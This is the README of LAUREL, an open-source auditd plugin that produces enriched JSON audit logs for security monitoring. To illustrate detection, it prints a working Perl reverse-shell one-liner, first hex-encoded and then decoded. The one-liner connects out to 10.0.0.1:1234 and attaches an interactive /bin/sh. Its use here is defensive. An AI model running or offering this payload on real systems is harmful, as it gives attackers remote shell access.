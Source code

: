 ![logo](laurel.svg)
# Linux Audit – Usable, Robust, Easy Logging

[![Build Status](https://github.com/threathunters-io/laurel/actions/workflows/build.yml/badge.svg)](https://github.com/threathunters-io/laurel/actions/workflows/build.yml)

LAUREL is an event post-processing plugin for _auditd(8)_ that generates useful, enriched JSON-based audit logs suitable for modern security monitoring setups.

Documentation corresponding to the latest stable release can be found [here](https://github.com/threathunters-io/laurel/tree/v0.5.6).

## Why?

TLDR: Instead of audit events that look like this…
```
type=EXECVE msg=audit(1626611363.720:348501): argc=3 a0="perl" a1="-e" a2=75736520536F636B65743B24693D2231302E302E302E31223B24703D313233343B736F636B65742…
```
…_LAUREL_ turns them into JSON logs where the mess that attackers/penetration testers/red teamers are trying to make becomes apparent at first glance:
```
{ … "EXECVE":{ "argc": 3,"ARGV": ["perl", "-e", "use Socket;$i=\"10.0.0.1\";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname(\"tcp\"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,\">&S\");open(STDOUT,\">&S\");open(STDERR,\">&S\");exec(\"/bin/sh -i\");};"]}, …}
```
This happens at the source because _LAUREL_ runs on the host where the audit events are generated. Events are enriched with useful information about the parent process (ppid):
```
"PPID":{"EVENT_ID":"1643635026.276:327308","comm":"sh","exe":"/usr/bin/dash","ppid":3190631}
```

## Documentation

Configuration and operational details are described in the [laurel(8)](man/laurel.8.md) manual page.
Details about the log format and rationales can be found in the [laurel-about(7)](man/laurel-about.7.md) manual page. 

The [_LAUREL_ installation instructions](INSTALL.md) contain instructions on how to build _LARUEL_ from source and how to install and configure it.

We developed _LAUREL_ because we were not content with feature sets and performance characteristics of existing projects and products. Please refer to the [Performance](performance.md) document for details.

## Container Image

From v0.5.2 on laurel is able to connect to a socket for forwarded auditd messages and can be executed in a container this way. A basic container image is published in this repository to `ghcr.io/threathunters-io/laurel` with tags `latest` and the respective version tag.

The provided container image build includes default labels via docker buildx from the pipeline. These labels are not included in the provided Dockerfile but are considered good practice. If you use a custom build with another tooling, consider adding the default labels to the Dockerfile.

The provided container image contains the default configuration, with one modification: Laurel connects to `/var/run/audispd_events` (the default path specified for the `builtin_af_unix` _auditd(8)_ plug-in. The plug-in needs to be enabled and the socket must be accessible from within the container. The rest of the configuration file should be customized as needed before deploying.

## License

GNU General Public License, version 3

## Authors

- Hilko Bengen <<bengen@hilluzination.de>>
- Sergej Schmidt <<sergej@msgpeek.net>>

The logo was created by Birgit Meyer <<hello@biggi.io>>.
